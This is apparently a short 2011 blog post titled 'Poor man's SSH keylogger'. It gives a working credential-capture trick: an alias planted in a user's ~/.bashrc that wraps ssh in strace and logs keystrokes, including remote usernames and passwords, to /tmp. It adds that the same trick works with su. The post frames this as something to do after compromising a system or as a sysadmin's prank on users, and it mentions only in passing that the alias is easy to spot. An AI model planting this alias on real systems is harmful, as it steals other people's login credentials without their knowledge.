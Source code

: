 ```yaml
---
title: Poor man's SSH keylogger
date: '2011-02-03'
summary: "If you have compromised a system (while doing penetration testing, obviously), or if you are just a BOFH that wishes to have a little fun, you can do something as easy as this..."
categories:
---
```


If you have compromised a system (while doing penetration testing, obviously), or if you are just a BOFH that wishes to have a little fun, you can do something as easy as this:

Edit the users ~/.bashrc and insert the following alias:

<pre>
ssh='strace   -o   /tmp/sshpwd-`date    '+%d%h%m%s'`.log  \
 -e read,write,connect  -s2048 ssh' 
</pre>

Now, every time a user uses the ssh command, he will be using this alias, and all his keystrokes (including the remote system's username/password), will be logged to /tmp.

<img src="http://media.tumblr.com/tumblr_lg1sdtJp921qevk7j.png" style="float:left;margin:0px 30px 0px 0px;" />

As I said, this is nothing fancy, and a quick look at the env, at the .bashrc or even at /tmp is enough to spot this. However, for a quick simple solution, it is more than enough.

Update: as one of the readers pointed out, this also works with su, using the exact same trick.
